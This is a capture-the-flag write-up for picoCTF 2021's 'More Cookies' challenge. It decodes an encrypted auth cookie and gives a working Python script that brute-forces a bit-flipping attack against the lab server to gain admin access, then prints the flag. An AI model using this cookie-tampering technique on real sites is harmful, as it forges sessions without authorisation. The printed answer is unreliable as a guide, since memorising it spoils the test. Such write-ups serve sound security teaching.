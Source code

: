 # More Cookies

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 90
Tags: picoCTF 2021, Web Exploitation
Author: MADSTACKS
 
Description:
I forgot Cookies can Be modified Client-side, so now I decided to encrypt them! 

http://mercury.picoctf.net:15614/

Hints:
1. https://en.wikipedia.org/wiki/Homomorphic_encryption
2. The search endpoint is only helpful for telling you if you are admin or not, you won't be able to guess the flag name
```

## Solution

Browse to the web site with your browser (I used Google Chrome).   
Press F12 to open DevTools and go to the `Application` tab.  
Under `Storage` and then `Cookies` select the web site.  
There is a cookie named `auth_name` with a value that looks like Base64-encoded data.

### Analyse the cookie

Lets decode it
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/More_Cookies]
└─$ echo "M0ZPa2VWZ1Y1bTFuc0ZJWGNBK2hUTU1Ccmt6VElYajBScjBtLzVPOUpTWlc3d212VUJ2WWNEYjBadTVoT2kyWE9YUDA2cStaWVBWdzFPV21aNWRnRzlqeHBzT0l2TGhwSUlmQXVXMDNtcmpMUVVpbHcrZUxlWURqYlV3cG9ERmM=" | base64 -d
3FOkeVgV5m1nsFIXcA+hTMMBrkzTIXj0Rr0m/5O9JSZW7wmvUBvYcDb0Zu5hOi2XOXP06q+ZYPVw1OWmZ5dgG9jxpsOIvLhpIIfAuW03mrjLQUilw+eLeYDjbUwpoDFc
```

Looks like Base64 again.
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/More_Cookies]
└─$ echo "M0ZPa2VWZ1Y1bTFuc0ZJWGNBK2hUTU1Ccmt6VElYajBScjBtLzVPOUpTWlc3d212VUJ2WWNEYjBadTVoT2kyWE9YUDA2cStaWVBWdzFPV21aNWRnRzlqeHBzT0l2TGhwSUlmQXVXMDNtcmpMUVVpbHcrZUxlWURqYlV3cG9ERmM=" | base64 -d | base64 -d
�S�yX�mg�Rp�L��L�!x�F�&���%&V�  �Pp6�f�a:-�9s�ꯙ`�p���g�`��È��i ���m7���AH����y��mL)�1\

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/More_Cookies]
└─$ echo "M0ZPa2VWZ1Y1bTFuc0ZJWGNBK2hUTU1Ccmt6VElYajBScjBtLzVPOUpTWlc3d212VUJ2WWNEYjBadTVoT2kyWE9YUDA2cStaWVBWdzFPV21aNWRnRzlqeHBzT0l2TGhwSUlmQXVXMDNtcmpMUVVpbHcrZUxlWURqYlV3cG9ERmM=" | base64 -d | xxd -g 1   
00000000: 33 46 4f 6b 65 56 67 56 35 6d 31 6e 73 46 49 58  3FOkeVgV5m1nsFIX
00000010: 63 41 2b 68 54 4d 4d 42 72 6b 7a 54 49 58 6a 30  cA+hTMMBrkzTIXj0
00000020: 52 72 30 6d 2f 35 4f 39 4a 53 5a 57 37 77 6d 76  Rr0m/5O9JSZW7wmv
00000030: 55 42 76 59 63 44 62 30 5a 75 35 68 4f 69 32 58  UBvYcDb0Zu5hOi2X
00000040: 4f 58 50 30 36 71 2b 5a 59 50 56 77 31 4f 57 6d  OXP06q+ZYPVw1OWm
00000050: 5a 35 64 67 47 39 6a 78 70 73 4f 49 76 4c 68 70  Z5dgG9jxpsOIvLhp
00000060: 49 49 66 41 75 57 30 33 6d 72 6a 4c 51 55 69 6c  IIfAuW03mrjLQUil
00000070: 77 2b 65 4c 65 59 44 6a 62 55 77 70 6f 44 46 63  w+eLeYDjbUwpoDFc
```

Since the encryption is [Homomorphic](https://en.wikipedia.org/wiki/Homomorphic_encryption), changes made to the encrypted form will also affect the decrypted form.  
We can exploit this with a [Bit-flipping attack](https://en.wikipedia.org/wiki/Bit-flipping_attack).

### Write a brute forde solver

Lets write a brute force solver script that bit-flips each bit for each byte in the cookie
```python
#!/usr/bin/python

import requests
from base64 import b64decode, b64encode
import re

URL = 'http://mercury.picoctf.net:15614/'
COOKIE = "auth_name"
FLAG_FORMAT = r'picoCTF{[^}]+}'

# Get the cookie
s = requests.Session()
r = s.get(URL)
cookie = s.cookies[COOKIE]
raw_cookie = bytearray(b64decode(b64decode(cookie)))

# Brute force bit-flipping
flag_found = False
for index in range(len(raw_cookie)):
    for i in range(8):
        mask = 1 << i
        #print(f"Bit-flipping index {index} with mask {hex(mask)}")
        raw_cookie[index] ^= mask
        
        flipped_cookie = b64encode(b64encode(raw_cookie)).decode("ascii")
        r = requests.get(URL, cookies = {COOKIE: flipped_cookie})
        match = re.search(FLAG_FORMAT, r.text)
        if match:
            flag_found = True
            print(f"Bit-flipped index {index} with mask {hex(mask)}")
            print(f"Flag: {match.group(0)}")
            break
        raw_cookie[index] ^= mask
    if flag_found:
        break
```

### Get the flag

Then we make sure the script is exacutable and run it
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/More_Cookies]
└─$ chmod +x get_flag.py 

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/More_Cookies]
└─$ ./get_flag.py
Bit-flipped index 9 with mask 0x1
Flag: picoCTF{cO0ki3s_yum_a9a19fa6}
```

For additional information, please see the references below.

## References

- [Wikipedia - HTTP cookie](https://en.wikipedia.org/wiki/HTTP_cookie)
- [Wikipedia - Homomorphic encryption](https://en.wikipedia.org/wiki/Homomorphic_encryption)
- [Wikipedia - Bit-flipping attack](https://en.wikipedia.org/wiki/Bit-flipping_attack)
